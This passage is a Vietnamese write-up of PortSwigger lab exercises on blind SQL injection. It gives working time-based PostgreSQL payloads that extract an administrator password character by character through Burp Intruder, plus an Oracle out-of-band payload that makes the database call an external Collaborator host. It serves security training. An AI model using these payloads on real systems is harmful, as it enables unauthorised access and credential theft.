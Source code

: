 >Trước tiên phải xác định web này sử dụng hệ cơ sở dữ liệu gì. Dùng cheat-sheet để có các cú pháp time delay khác nhau:![image](https://hackmd.io/_uploads/Hk6ApDUlR.png)

>Thử tới payload `'||pg_sleep(10)--` thì xác định được bài này dùng PostgreSQL vì phản hồi bị chậm lại 10 giây: ![image](https://hackmd.io/_uploads/By2ZRPUe0.png)

>Sau đó mình sẽ đưa các truy vấn cần thiết vào trong **CASE**, để khi nào truy vấn đúng thì kết quả trả về ngay lập tức, còn sai thì delay 10 giây. Payload mẫu:
>`'|| CASE WHEN (1=1) THEN '' ELSE pg_sleep(10) END--`

>Tìm độ dài của password, sử dụng Intruder, payload:
>`'|| CASE WHEN ((SELECT LENGTH(password) FROM users WHERE username='administrator')=§§) THEN '' ELSE pg_sleep(10) END--` 
>Trong đó `§§` chạy từ 1 -> 30: 
>![image](https://hackmd.io/_uploads/H197ZdLlC.png)

>Nhận thấy khi payload = 20 thì thời gian phản hồi ít nhất => Mật khẩu có độ dài 20 kí tự. Tiếp tục sử dụng SUBSTRING để đoán từng kí tự trong mật khẩu: 
>`'|| CASE WHEN ((SELECT SUBSTRING(password, §§, 1) FROM users WHERE username='administrator')='§§') THEN '' ELSE pg_sleep(4) END--`

>Cài đặt tham số cho 2 payload: 
>![image](https://hackmd.io/_uploads/HyjxXdLx0.png) 
>và
> ![image](https://hackmd.io/_uploads/ryMfmu8xC.png)

>Attack xong, lọc theo `Respone received` để lấy 20 request có thời gian phản hồi nhanh nhất: ![image](https://hackmd.io/_uploads/BywDYOLgC.png)

>Sắp xếp lại theo thứ tự để được mật khẩu: ![image](https://hackmd.io/_uploads/BJ_tFdIe0.png)

>Login thành công và solved bài lab: ![image](https://hackmd.io/_uploads/BJxituLeC.png)

# **16. Lab: Blind SQL injection with out-of-band interaction**
> Bài lab tiếp tục khai thác lỗ hổng SQLi tại trường `TrackingID` tại Cookie. Cho biết truy vấn SQL được thực thi không đồng bộ và không ảnh hưởng đến phản hồi của ứng dụng. Tuy nhiên thì ta có thể làm cho nó tương tác với external domain. Đây là lỗ hổng thuộc dạng Out-of-band SQLi. Để giải quyết bài lab, khai thác lỗ hổng SQL để thực hiện tra cứu DNS trong Burp Collaborator.
![image](https://hackmd.io/_uploads/ryX69dLxC.png)

> Đầu tiên, phải xác định hệ cơ sở dữ liệu mà server sử dụng bằng cách tra cheat-sheet: ![image](https://hackmd.io/_uploads/HyA7l1veC.png)

> Vào Burp Collaborator và lấy subdomain: ![image](https://hackmd.io/_uploads/SJ8Rl1DlC.png)

> Cho request chứa `Tracking Cookie` vào Repeater và thay từng payload ứng với các hệ cơ sở dữ liệu tương ứng, mục tiêu sẽ là tạo ra cac DNS lookup query đến external domain.

>Sau khi thử payload của Oracle thì bên phía Collaborator đã nhận được các DNS Query: 
> `' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://nsjtiuq949f56qkgybmpwlcublhc51.oastify.com/"> %remote;]>'),'/l') FROM dual--`
> **Lưu ý:** chuyển payload về dạng URL encode trước khi Send bằng cách Ctrl U. 
> ![image](https://hackmd.io/_uploads/Skoo7yPeC.png)
